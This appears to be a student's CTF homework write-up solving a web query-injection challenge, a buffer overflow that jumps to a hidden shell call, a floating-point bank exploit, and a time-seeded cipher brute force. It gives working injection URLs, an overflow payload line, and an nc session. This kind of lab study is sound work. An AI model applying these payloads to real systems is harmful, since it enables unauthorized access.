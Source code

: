 # HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
   ```js
   // but the function can't be directly access by external users
   if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
   ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`
      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. disassemble the binary with `objdump -d -M intel CafeOverflow`
   ```nasm
   401234:	e8 17 fe ff ff       	call   401050 <printf@plt>
   401239:	48 8d 45 f0          	lea    rax,[rbp-0x10]
   40123d:	48 89 c6             	mov    rsi,rax
   401240:	48 8d 3d f6 0d 00 00 	lea    rdi,[rip+0xdf6]        # 40203d <_IO_stdin_used+0x3d>
   401247:	b8 00 00 00 00       	mov    eax,0x0
   40124c:	e8 1f fe ff ff       	call   401070 <__isoc99_scanf@plt>
   ```
   Use `scanf` to get input in the *main function* with a buffer size of `0x10`. Therefore, it's vulnerable to **buffer overflow**. Pad `0x10` characters to fill the gap and 8 more byte to overwrite `rbp` and then its our target, ***the return address***.
2. In order to get the flag, we have to open shell and read the content of the remote file, *flag*.
   ```nasm
   0000000000401176 <func1>:
   401176:	55                   	push   rbp
   401177:	48 89 e5             	mov    rbp,rsp
   40117a:	48 83 ec 10          	sub    rsp,0x10
   40117e:	48 89 c0             	mov    rax,rax
   401181:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
   401185:	48 b8 fe ca fe ca fe 	movabs rax,0xcafecafecafecafe
   40118c:	ca fe ca 
   40118f:	48 39 45 f8          	cmp    QWORD PTR [rbp-0x8],rax
   401193:	75 22                	jne    4011b7 <func1+0x41>
   401195:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402004 <_IO_stdin_used+0x4>
   40119c:	e8 8f fe ff ff       	call   401030 <puts@plt>
   4011a1:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402010 <_IO_stdin_used+0x10>
   4011a8:	e8 93 fe ff ff       	call   401040 <system@plt>
   4011ad:	bf 00 00 00 00       	mov    edi,0x0
   4011b2:	e8 c9 fe ff ff       	call   401080 <exit@plt>
   4011b7:	48 8d 3d 5a 0e 00 00 	lea    rdi,[rip+0xe5a]        # 402018 <_IO_stdin_used+0x18>
   4011be:	e8 6d fe ff ff       	call   401030 <puts@plt>
   4011c3:	90                   	nop
   4011c4:	c9                   	leave  
   4011c5:	c3                   	ret 
   ```
   Find a function, `fun1`, that never been called but call `system("/bin/sh")`. However, if call `func1`, it needs to fulfill certain requirement to jump to where it call `system("/bin/sh")`. Therefore, let it jump to `0x401195` directly.
3. Combine step 1 and 2.  
   `payload = 'a' * (0x10 + 8) + p64(0x401195)`

## Misc - The Floating Aquamarine
> FLAG{floating_point_error_https://0.30000000000000004.com/}  
> [solution](./misc/solve.py)  

From [src.cpp](./hw0/../misc/src.cpp), variable `PRICE, RICH, balance` are `float`. Therefore, the vulnerability may be due the precision of floating point. By buying a large amount and sell with little portion, one can possibly gain money as demonstrated below. By repeat it multiple times, we are able to make `balance` larger than `RICH`.
```shell
$ nc hw00.zoolab.org 65535
Welcome to Aquamarine bank! You can buy/loan and sell Aquamarine here.
The price of Aquamarine is fixed at 88.88 dollars. No bargaining!
If your balance >= 3000 dollars, you can get the flag!

Your Aquamarine: 0, balance: 0
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
100000000
Your Aquamarine: 100000000, balance: -8.888e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 0)
-3000000
Your Aquamarine: 97000000, balance: -8.62136e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 3000000)
-97000000
Your Aquamarine: 0, balance: 1024
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
```


## Cryptography - 解密一下
> FLAG{4lq7mWGh93}  
> [solution](./crypto/solve.py)

1. Modify source code to make it easier to read, from [encrypt.py](./crypto/encrypt.py) to [modifiedEncrypt.py](./crypto/modifiedEncrypt.py).
2. Use `time.time()` as seed for random. Therefore, by guessing around what time the [output.txt](./crypto/output.txt) is generated, the key possibility of key can be redused.
   ```python
   random.seed(int(time.time()))
   key = random.getrandbits(128).to_bytes(16, 'big')
   ```
3. Implement `decrypt` function for the corresponding `encrypt`.
   - `_encrypt`
      ```python
      def _encrypt(pts: _list[int], key: _list[int]):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         for _ in range(32):
            count = count + delta & mask    # delta & mask = 0xfaceb00c = 4207849484
            pts[0] = pts[0] + ((pts[1] << 4) + key[0] & mask ^ (pts[1] + count) & mask ^ (pts[1] >> 5) + key[1] & mask) & mask
            pts[1] = pts[1] + ((pts[0] << 4) + key[2] & mask ^ (pts[0] + count) & mask ^ (pts[0] >> 5) + key[3] & mask) & mask
         return pts
      ```
      Perform a certain operation 32 times on the input plaintext, adding a certain value (corresponding to `pts[1], pts[0]` and `count`) each time for `pts[0], pts[1]`. 
   - `_decrypt`
      ```python
      def _decrypt(cts, key):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         last = 0x59d60180
         for _ in range(32):
            cts[1] = cts[1] - ((cts[0] << 4) + key[2] & mask ^ (cts[0] + last) & mask ^ (cts[0] >> 5) + key[3] & mask) & mask
            cts[0] = cts[0] - ((cts[1] << 4) + key[0] & mask ^ (cts[1] + last) & mask ^ (cts[1] >> 5) + key[1] & mask) & mask
            last = last - delta & mask
         return cts
      ```
      Reverse `_encrypt`. Find out the last used `count`, `0x59d60180`, and perform certain operation 32 times, reversing the order of `cts[0], cts[1]` and substracting a certain value each time.
4. Guess [output.txt](./crypto/output.txt) is the result of [encrypt.py](./crypto/encrypt.py) `n` days ago. Starting from `n` days ago, start brute force :joy: .
   - Knowing that the flag has initial `flag{` or `FLAG`, stop when find a decrypted text has such initial and print out its seed and the result.

## Reverse - EekumBokum